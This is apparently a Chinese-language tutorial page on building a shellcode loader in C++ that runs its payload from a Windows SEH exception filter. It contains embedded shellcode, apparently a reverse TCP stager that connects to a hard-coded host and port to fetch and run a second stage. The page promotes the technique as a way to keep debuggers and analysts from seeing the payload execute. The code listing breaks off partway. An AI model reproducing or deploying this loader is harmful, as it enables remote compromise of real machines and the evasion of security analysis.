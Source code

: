 ![img](shellcode加载器/assets%2F-M3GuIlaAXU8NbJTCRei%2F-M7u7TrzN0Wym0qmjjSg%2F-M7u9bFpgHXC3vjN9d5g%2Fimage.png)



在C++中，可以使用`_try`、`_except`和`_finally`关键字来实现SEH异常处理。`_try`块包含可能引发异常的代码；`_except`块包含处理异常的代码；而`_finally`块包含在任何情况下都应执行的代码，无论是否发生异常	

SEH的一个重要特点是它与语言无关，因此可以在C、C++等语言中使用。然而，C++提供了另一种异常处理机制：C++异常处理（`try`、`catch`和`throw`关键字）。C++异常处理机制更符合C++语言的面向对象特性，通常在C++程序中更为常用。然而，在某些情况下，SEH仍然具有独特的优势，例如在处理特定的Windows异常或与C代码交互时



## 实现代码

这种方式加载shellcode的一个好处就是在调试器环境下和正常运行环境下表现不同。当程序在调试器中运行时，调试器会接管异常处理，从而使得程序在除零异常处停止，而不会执行shellcode。这使得恶意代码的执行在调试环境下被阻止，为分析和调试带来困难

```cpp
#include<Windows.h>
#include<stdio.h>
#pragma comment(linker, "/section:.data,RWE")

// 存储要执行的shellcode
char shellcode[] = 
"\xfc\xe8\x8f\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52"
"\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x31\xff\x0f\xb7"
"\x4a\x26\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d"
"\x01\xc7\x49\x75\xef\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01"
"\xd0\x8b\x40\x78\x85\xc0\x74\x4c\x01\xd0\x8b\x48\x18\x8b"
"\x58\x20\x01\xd3\x50\x85\xc9\x74\x3c\x49\x31\xff\x8b\x34"
"\x8b\x01\xd6\x31\xc0\xc1\xcf\x0d\xac\x01\xc7\x38\xe0\x75"
"\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe0\x58\x8b\x58\x24\x01"
"\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01"
"\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x58"
"\x5f\x5a\x8b\x12\xe9\x80\xff\xff\xff\x5d\x68\x33\x32\x00"
"\x00\x68\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\x89\xe8"
"\xff\xd0\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80"
"\x6b\x00\xff\xd5\x6a\x0a\x68\xc0\xa8\x2f\x9b\x68\x02\x00"
"\x11\x5c\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea"
"\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5\x74"
"\x61\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67"
"\x00\x00\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f"
"\xff\xd5\x83\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10"
"\x00\x00\x56\x6a\x00\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53"
"\x6a\x00\x56\x53\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8"
"\x00\x7d\x28\x58\x68\x00\x40\x00\x00\x6a\x00\x50\x68\x0b"
"\x2f\x0f\x30\xff\xd5\x57\x68\x75\x6e\x4d\x61\xff\xd5\x5e"
"\x5e\xff\x0c\x24\x0f\x85\x70\xff\xff\xff\xe9\x9b\xff\xff"
"\xff\x01\xc3\x29\xc6\x75\xc1\xc3\xbb\xf0\xb5\xa2\x56\x6a"
"\x00\x53\xff\xd5";

int a = 1;
int b = 0;

// 定义异常处理函数
int ExceptFilter()
{	
	b = 1; // 修改b的值为1，以防止无限循环的异常处理
	((void(*)(void)) & shellcode)(); // 强制转换shellcode的类型，并执行
	return EXCEPTION_CONTINUE_EXECUTION; // 在处理完异常后，程序继续执行异常发生位置的代码
	/*
	EXCEPTION_CONTINUE_EXECUTION返回值会导致程序在处理完异常后重新执行引发异常的那一行代码。
	由于ExceptFilter函数已经修改了变量b的值（将其设置为1），再次执行a / b时将不会触发异常。
	因此，这个程序不会反复加载shellcode
	*/

```